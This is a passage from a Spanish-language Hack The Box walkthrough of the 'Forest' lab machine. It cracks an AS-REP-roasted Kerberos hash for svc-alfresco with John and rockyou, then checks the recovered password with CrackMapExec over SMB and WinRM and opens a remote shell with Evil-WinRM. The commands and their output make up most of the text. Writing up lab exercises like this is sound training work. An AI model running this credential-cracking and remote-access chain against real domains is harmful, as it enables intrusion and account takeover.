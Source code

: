 ```c
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Por último, ahora solo queda romper el **ticket**. Esto se puede hacer con ayuda de **John** con el siguiente comando:

```c
cat ticket.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:322a9bdc853263e0e1c485b99d13f64d$85f8b9c7c96caa31debe539ba61cc4bd174e81c492de9d17edf822605a71981052fdf3d5c901ea330f92ac29348e55a152c0057f3a152f553adf953ee4e6528a8824bb856d358faa58a3df754fe02d38aedf3925acea84e664b5268407a35e2c39d33dd972b987adb2d93982503193fae1d9b34d83545054627c110106f97258997684bcb1d70e7f2e63884636393ddb33011088c00951dcbbc7fbeda64150e00553ec254603132d745abad1e65bdd9f1a6810b102ffb5265557a398e3fd1de57d22653efa7e30a412551f084309c44279be5d72b56dd3e53b9db7c3219e1a472fa6f570558a

john ticket.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:06 DONE (2024-08-04 19:39) 0.1605g/s 655820p/s 655820c/s 655820C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Como contamos con **credenciales**, podemos intentar ver a qué servicios tenemos acceso. Esto se puede hacer con ayuda de **CrackMapExec**. Con esto en mente, podemos hacer uso de los siguientes comandos:

```c
❯ crackmapexec smb 10.129.252.2  -d "htb.local"  -u "svc-alfresco" -p "s3rvice"
SMB         10.129.252.2    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.252.2    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 

```

```c
❯ crackmapexec winrm 10.129.252.2  -d "htb.local"  -u "svc-alfresco" -p "s3rvice"
HTTP        10.129.252.2    5985   10.129.252.2     [*] http://10.129.252.2:5985/wsman
WINRM       10.129.252.2    5985   10.129.252.2     [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Como confirmamos que nuestras **credenciales** son válidas, nos podemos conectar por **WinRM** con ayuda de la herramienta **Evil-WinRM**. Gracias a esto, tendríamos un acceso inicial y ya podríamos buscar la **flag de usuario**.

```powershell
❯ evil-winrm -u "svc-alfresco" -p "s3rvice" -i 10.129.252.2
   
Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> pwd

Path
----
C:\Users\svc-alfresco\Documents


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
```